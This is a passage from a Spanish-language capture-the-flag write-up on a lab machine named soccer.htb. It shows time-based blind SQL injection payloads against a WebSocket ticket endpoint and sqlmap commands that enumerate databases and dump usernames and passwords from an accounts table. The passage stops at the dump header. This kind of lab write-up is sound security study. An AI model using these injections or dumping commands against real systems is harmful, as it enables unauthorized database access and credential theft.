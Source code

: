 > **¿Qué es WebSocket?**  
WebSocket es una tecnología que proporciona un canal de comunicación bidireccional y full-duplex sobre un único socket TCP. Está diseñada para ser implementada en navegadores y servidores web, pero puede utilizarse por cualquier aplicación cliente/servidor.

Pruebo inyecciones básicas en el ticket y parecen funcionar:
```sh
4 or 1=1-- -
# Me pone que ticket existe

4 or sleep(5)-- -
# Tarda 5 segundos en responder, lo puedo ver desde el WebSocket History.
```
Voy a lanzar un **sqlmap** esta vez:
```sh
> sqlmap -u ws://soc-player.soccer.htb:9091/ --data '{"id":"4"}' --batch --dbs --threads=10 -dbms=mysql

Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"4 AND (SELECT 1818 FROM (SELECT(SLEEP(5)))hpIn)"}
# Es una inyección basada en tiempo.

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```
La base de datos más interesante es soccer_db:
```sh
> sqlmap -u ws://soc-player.soccer.htb:9091/ --data '{"id":"4"}' --batch -D soccer_db --tables --threads=10

Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```
Ahora toca averiguar las columnas:
```sh
> sqlmap -u ws://soc-player.soccer.htb:9091/ --data '{"id":"4"}' --batch -D soccer_db -T accounts --columns --threads=10

Database: soccer_db
Table: accounts
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | varchar(40) |
| id       | int         |
| password | varchar(40) |
| username | varchar(40) |
+----------+-------------+
```
Y por último dumpear la data:
```sh
> sqlmap -u ws://soc-player.soccer.htb:9091/ --data '{"id":"4"}' --batch -D soccer_db -T accounts -C username,password --dump --threads=10

Database: soccer_db
Table: accounts
```